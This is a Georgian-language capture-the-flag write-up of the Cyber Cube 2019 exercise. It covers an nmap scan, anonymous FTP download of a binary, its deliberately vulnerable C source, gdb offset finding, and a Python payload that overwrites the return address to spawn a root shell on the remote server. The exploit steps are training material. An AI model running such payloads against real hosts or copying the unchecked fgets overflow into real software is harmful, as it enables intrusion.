

# პირობა 
### მოცემული გაქვთ IP მისამართი. თქვენი მიზანია მოიპოვოთ წვდომა სერვერზე და ამოიღოთ /root/flag.txt ფაილის შიგთავსი.

# ამოხსნის სარჩევი
#### 1. [სერვერის სკანირება](#scan)  
#### 2. [ftp-ით სერვერზე შესვლა](#ftp)
#### 3. [pwn.c-ის მიმოხილვა](#pwn.c)
#### 4. [pwn-ის disassemble (gdb)](#gdb)
#### 5. [offset-ის პოვნა](#offset)
#### 6. [python-ის სკრიპტით payload-ის აგება](#generate_payload)
#### 7. [ლოკალურად გაშვება](#run_local)
#### 8. [სერვერზე გაშვება](#run_server)

# ამოხსნა

<a name="scan"/> 

### 1. სერვერის სკანირება 

</a>

პირველრიგში, nmap-ის გამოყენებით დავასკანეროთ მოცემულ სერვერ

```bash
root@kali:~$ nmap -sC 185.212.254.50

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-06 00:45 +04
Nmap scan report for 185.212.254.50
Host is up (0.014s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 0        0             181 Jul 02  2019 compile.sh
| -rwxr-xr-x    1 0        0            8616 Jul 02  2019 pwn
|_-rwxr-xr-x    1 0        0             568 Jul 02  2019 pwn.c
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 188.169.241.77
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 7.33 seconds

```

<a name="ftp"/>

### 2. ftp-ით სერვერზე შესვლა

</a>

```bash
root@kali:~/pwn$ ftp -p 185.212.254.50

Connected to 185.212.254.50.
220 (vsFTPd 3.0.3)
Name (185.212.254.50:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> pass
Passive mode on.

ftp> ls
227 Entering Passive Mode (185,212,254,50,216,216).
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0             181 Jul 02  2019 compile.sh
-rwxr-xr-x    1 0        0            8616 Jul 02  2019 pwn
-rwxr-xr-x    1 0        0             568 Jul 02  2019 pwn.c
226 Directory send OK.

ftp> get compile.sh
local: compile.sh remote: compile.sh
227 Entering Passive Mode (185,212,254,50,153,151).
150 Opening BINARY mode data connection for compile.sh (181 bytes).
226 Transfer complete.
181 bytes received in 0.00 secs (1.0925 MB/s)

ftp> get pwn
local: pwn remote: pwn
227 Entering Passive Mode (185,212,254,50,84,249).
150 Opening BINARY mode data connection for pwn (8616 bytes).
226 Transfer complete.
8616 bytes received in 0.00 secs (6.8077 MB/s)

ftp> get pwn.c
local: pwn.c remote: pwn.c
227 Entering Passive Mode (185,212,254,50,57,3).
150 Opening BINARY mode data connection for pwn.c (568 bytes).
226 Transfer complete.
568 bytes received in 0.00 secs (2.3863 MB/s)

ftp> 221 Goodbye.
```


<a name="pwn.c"/>

### 3. pwn.c-ის მიმოხილვა 

</a>

```c
/*
*   Cyber Cube 2019 - Exploit Development Exercise
*   Name: pwn
*/
#include <stdio.h>
void welcome_to_cybercube2019(void);
void giveme_shell(void);

int main(void){
        welcome_to_cybercube2019();
        char name[25];
        printf("Name?: ");
        fflush(0);
        fgets(name, 250, stdin);

        printf("size: %d\n", strlen(name));
}

void welcome_to_cybercube2019(void){
	printf("root@kali:~/ \n");	
}
void giveme_shell(void){
	char* envp[] = {"some", "environment", NULL};
	char* argv[] = {"/bin/bash", NULL};
	execve("/bin/bash", argv, envp);
}
```

<a name="gdb"/>

### 4. pwn-ის disassemble (gdb)

</a>

https://wiremask.eu/tools/buffer-overflow-pattern-generator/

```gdb
root@kali:~/CyberLab.tech/Exploit Development/Klasika$ gdb ./pwn

...
...
...

(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  strlen@plt
0x0000000000401050  printf@plt
0x0000000000401060  fgets@plt
0x0000000000401070  execve@plt
0x0000000000401080  fflush@plt
0x0000000000401090  _start
0x00000000004010c0  _dl_relocate_static_pie
0x00000000004010d0  deregister_tm_clones
0x0000000000401100  register_tm_clones
0x0000000000401140  __do_global_dtors_aux
0x0000000000401170  frame_dummy
0x0000000000401172  main
0x00000000004011d9  welcome_to_cybercube2019
0x00000000004011ec  giveme_shell
0x0000000000401240  __libc_csu_init
0x00000000004012a0  __libc_csu_fini
0x00000000004012a4  _fini
```


<a name="offset"/>

### 5. offset-ის პოვნა

</a>

გამოვიყენოთ [Buffer Overflow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
დაგენერირებული 100 ზომის პატერნი:
`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A`

```gdb
(gdb) run
Starting program: /home/root/Documents/CyberLab.tech/Exploit Development/Klasika/pwn 
root@kali:~/ 
Name?: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
size: 101

Program received signal SIGSEGV, Segmentation fault.
0x00000000004011d8 in main ()
```

```gdb
(gdb) info registers
rax            0x0                 0
rbx            0x0                 0
rcx            0x0                 0
rdx            0x0                 0
rsi            0x4052a0            4215456
rdi            0x7ffff7faa4c0      140737353786560
rbp            0x4132624131624130  0x4132624131624130
rsp            0x7fffffffde48      0x7fffffffde48
r8             0x0                 0
r9             0xa                 10
r10            0x7fffffffdcf5      140737488346357
r11            0x246               582
r12            0x401090            4198544
r13            0x7fffffffdf20      140737488346912
r14            0x0                 0
r15            0x0                 0
rip            0x4011d8            0x4011d8 <main+102>
eflags         0x10206             [ PF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```

```gdb 
(gdb) x/w $rsp
0x7fffffffde48:	0x62413362
```

გამოვიყენოთ იგივე ლინკი რა დასაგენერირებლად და ვიპოვოთ offset. როგორ ჩანს 40ია



<a name="generate_payload"/> 

### 6. python-ის სკრიპტით payload-ის აგება

</a>

გვჭირდება შემდეგნაირი ინფუთი სტრინგი რომელიც შედგება 40 ცალი რანდომ ქარაქტერისგან და შემდეგ giveme_shell ფუნქციის მისამართი

ამისთვის გამზადებული გვაქვს [buffer_overflow.py](buffer_overflow.py)  სკრიპტი, რომელიც payload.txt-ში ჩაწერს დაგენერირებულ სკრიპტს

```python
import struct

# prepare payload
offset = 40
address = 0x00000000004011ec

p = b"A" * offset
p += struct.pack("<Q", address)

# write into file
file_name = "payload.txt"
file = open(file_name, "wb")
file.write(p)

```


<a name="run_local"/> 

### 7. ლოკალურად გაშვება

</a>
```bash
(./buffer_overflow.py && cat payload.txt; cat) | ./pwn 
```

```bash
root@kali:~/CyberLab.tech/Exploit Development/Klasika$ (./buffer_overflow.py && cat payload.txt; cat) | ./pwn 

root@kali:~/ 
Name?: size: 43
ls
Readme.md  buffer_overflow.py  compile.sh  payload.txt  pwn  pwn.c
whoami
root
```


<a name="run_server"/> 

### 8. სერვერზე გაშვება

</a>
```bash
root@kali:~/CyberLab.tech/Exploit Development/Klasika$ (./buffer_overflow.py && cat payload.txt; cat) | nc 185.212.254.52 443root@kali:~/ 
Name?: ls
flag.txt
pwn
script.sh
cat flag.txt
Cyber_Cube{...}
```